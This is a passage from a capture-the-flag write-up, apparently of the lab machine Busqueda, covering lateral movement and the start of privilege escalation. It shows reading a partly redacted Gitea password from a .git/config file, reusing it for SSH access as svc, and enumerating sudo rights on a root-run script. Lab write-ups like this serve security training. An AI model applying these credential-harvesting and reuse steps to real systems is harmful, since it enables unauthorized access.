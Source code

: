 ## Lateral Movement

Once we gain a shell, we can search around. In the `/home/svc/` directory, we can see a `.git` folder.

```bash
$ ls -lah
total 20K
drwxr-xr-x 4 www-data www-data 4.0K Apr  3 14:32 .
drwxr-xr-x 4 root     root     4.0K Apr  4 16:02 ..
-rw-r--r-- 1 www-data www-data 1.1K Dec  1 14:22 app.py
drwxr-xr-x 8 www-data www-data 4.0K Apr 10 06:44 .git
drwxr-xr-x 2 www-data www-data 4.0K Dec  1 14:35 templates
$ ls
branches
COMMIT_EDITMSG
config
description
HEAD
hooks
index
info
logs
objects
refs
```

There we can find a config file that might contain interesting credentials.

```bash
$ cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1**REDACTED**2@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```

We can use these credentials to login into svc and inspect further.

```bash
$ ssh svc@10.10.11.208
```

## Privilege Escalation

```bash
svc@busqueda:~$ whoami
svc
svc@busqueda:~$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
svc@busqueda:~$ sudo -u root  /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)
```